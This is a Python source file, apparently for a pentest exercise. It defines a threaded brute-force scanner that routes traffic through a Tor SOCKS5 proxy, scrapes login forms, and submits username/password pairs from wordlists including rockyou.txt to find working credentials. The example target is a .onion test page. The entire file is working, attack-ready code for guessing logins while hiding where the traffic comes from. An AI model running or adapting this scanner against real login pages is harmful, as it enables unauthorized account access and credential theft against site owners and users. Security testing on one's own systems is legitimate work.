 import requests
from bs4 import BeautifulSoup
from urllib.parse import urljoin
from concurrent.futures import ThreadPoolExecutor, as_completed, TimeoutError
import json
from tqdm import tqdm

usernames_file = "./dics/usernames.txt"
passwords_file = "./dics/rockyou.txt"

class AdvancedBruteForceScanner:
    
    def __init__(self, urls, proxy_address="127.0.0.1", proxy_port=9050):
        self.urls = urls
        self.session = requests.Session()
        self.proxies = {
            'http': f'socks5h://{proxy_address}:{proxy_port}',
            'https': f'socks5h://{proxy_address}:{proxy_port}'
        }
        self.input_name_users = None
        self.num_threads = 5
        self.results = {}
        self.timeout = 10

    def get_forms(self, url):
        try:
            response = self.session.get(url, proxies=self.proxies, allow_redirects=True, timeout=self.timeout)
            response.raise_for_status()
            soup = BeautifulSoup(response.content, "html.parser")
            return soup.find_all("form")
        except requests.exceptions.RequestException as e:
            print(f"Error al acceder a {url}: {e}")
            return []

    def form_details(self, form):
        details_of_form = {}
        action = form.attrs.get("action")
        method = form.attrs.get("method", "get")
        inputs = []

        for input_tag in form.find_all("input"):
            input_type = input_tag.attrs.get("type", "text")
            input_name = input_tag.attrs.get("name")
            input_value = input_tag.attrs.get("value", "")
            inputs.append({
                "type": input_type,
                "name": input_name,
                "value": input_value,
            })

        details_of_form['action'] = action
        details_of_form['method'] = method
        details_of_form['inputs'] = inputs
        return details_of_form

    def login_successful(self, response):
        success_messages = [
            "Inicio de sesión exitoso!",
            "Login successful!",
            "Welcome",
        ]

        for message in success_messages:
            if message in response.text:
                return True
        return False

    def send_login_request(self, url, action, method, headers, credentials):
        try:
            if method.lower() == "post":
                res = self.session.post(urljoin(url, action), data=credentials,
                                        headers=headers, proxies=self.proxies, allow_redirects=True, timeout=self.timeout)
            elif method.lower() == "get":
                res = self.session.get(urljoin(url, action), params=credentials,
                                    headers=headers, proxies=self.proxies, allow_redirects=True, timeout=self.timeout)

            res.raise_for_status()

            if self.login_successful(res):
                result = {
                    "url": url,
                    "credentials": credentials,
                    "success": True,
                    "response": res.text
                }
                self.results.setdefault(url, []).append(result)
            elif res.is_redirect:
                new_url = urljoin(url, res.headers.get('location', ''))
                new_response = self.session.get(new_url, proxies=self.proxies, allow_redirects=False, timeout=self.timeout)
                new_response_text = new_response.content.decode('utf-8')
                if self.login_successful(new_response):
                    result = {
                        "url": url,
                        "credentials": credentials,
                        "success": True,
                        "response": new_response_text
                    }
                    self.results.setdefault(url, []).append(result)
        except Exception as e:
            error_message = f"Error: {str(e)}"
            result = {
                "url": url,
                "credentials": credentials,
                "success": False,
                "error": error_message
            }
            self.results.setdefault(url, []).append(result)

    def brute_force(self, usernames_file, passwords_file):
        for url in tqdm(self.urls, desc="Scanning URLs for Brute Force"):  
            input_names = self.find_login_inputs_with_timeout(url)
            if not input_names:
                continue  

            with open(usernames_file, 'r') as user_file:
                usernames = [line.strip() for line in user_file]
            with open(passwords_file, 'r') as password_file:
                passwords = [line.strip() for line in password_file]

            credentials_list = [{self.input_name_users[0]: user, self.input_name_users[1]: password} for user in usernames[:10] for password in passwords[:10]]

            with ThreadPoolExecutor(max_workers=self.num_threads) as executor:
                futures = []
                for credentials in credentials_list:
                    futures.append(executor.submit(self.send_login_request,
                                                   url, input_names['action'], input_names['method'],
                                                   {'User-Agent': 'pentest'}, credentials))
                for future in as_completed(futures):
                    try:
                        future.result(timeout=self.timeout)
                    except Exception as e:
                        print(f"Error en thread: {e}")

        if not self.results:
            return json.dumps({"No encontrado fuerza bruta"})
        return json.dumps(self.results)

    def find_login_inputs_with_timeout(self, url):
        with ThreadPoolExecutor(max_workers=1) as executor:
            future = executor.submit(self.find_login_inputs, url)
            try:
                return future.result(timeout=self.timeout)
            except TimeoutError:
                error_message = f"Error: Timeout retrieving content from {url}"
                print(error_message)
                result = {
                    "url": url,
                    "error": error_message
                }
                self.results.setdefault(url, []).append(result)
                return {}

    def find_login_inputs(self, url):
        try:
            response = self.session.get(url, proxies=self.proxies, timeout=self.timeout)
            response.raise_for_status()
            soup = BeautifulSoup(response.text, 'html.parser')
            login_inputs = soup.find_all('input', {'type': ['text', 'password']})
            form = soup.find("form")
            if form is None:
                raise KeyError("Form not found")
            input_names = {'action': form['action'], 'method': form['method']}
            self.input_name_users = [input_tag.attrs.get("name") for input_tag in login_inputs]
            return input_names
        except requests.exceptions.RequestException as e:
            error_message = f"Error: Unable to retrieve content from {url}"
            print(error_message)
            result = {
                "url": url,
                "error": error_message
            }
            self.results.setdefault(url, []).append(result)
            return {}
        except KeyError as ke:
            error_message = f"Error: Unable to find form details in {url}"
            print(error_message)
            result = {
                "url": url,
                "error": error_message
            }
            self.results.setdefault(url, []).append(result)
            return {}


if __name__ == "__main__":
    urls = [
        "http://kz62gxxle6gswe5t6iv6wjt4dxi2l57zys73igvltcenhq7k3sa2mad.onion/tests/prueba_bruteforce/prueba_bruteforce.html"
        # Add more URLs here if needed
    ]
    scanner = AdvancedBruteForceScanner(urls)
    results_json = scanner.brute_force(usernames_file, passwords_file)
    print(results_json)
